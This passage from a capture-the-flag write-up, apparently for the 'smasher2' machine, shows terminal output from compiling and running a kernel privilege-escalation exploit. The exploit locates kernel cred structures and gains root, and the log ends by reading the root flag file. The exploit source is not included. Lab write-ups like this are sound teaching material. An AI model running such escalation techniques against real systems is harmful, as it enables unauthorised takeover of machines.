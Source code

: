 After compiling and running the code, we get root access:

```
dzonerzy@smasher2:/dev/shm$ gcc -w -o exploit exploit.c
dzonerzy@smasher2:/dev/shm$ ./exploit
[+] PID: 15475
[+] Open OK fd: 3
[+] mmap OK addr: 42424000
[+] UID: 1000
[+] Found cred structure! ptr: 0x763600c4, credNum: 1
[+] Found cred structure! ptr: 0x76360544, credNum: 2
[+] Found cred structure! ptr: 0x76360cc4, credNum: 3
[+] Found cred structure! ptr: 0x76361444, credNum: 4
[+] Found cred structure! ptr: 0x76361b04, credNum: 5
[+] Found cred structure! ptr: 0x76361bc4, credNum: 6
[+] Found cred structure! ptr: 0x76361e04, credNum: 7
[+] Found cred structure! ptr: 0x76c4af04, credNum: 8
[+] GOT ROOT!
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare),1000(dzonerzy)

# cat /root/root.txt
7791e0...
```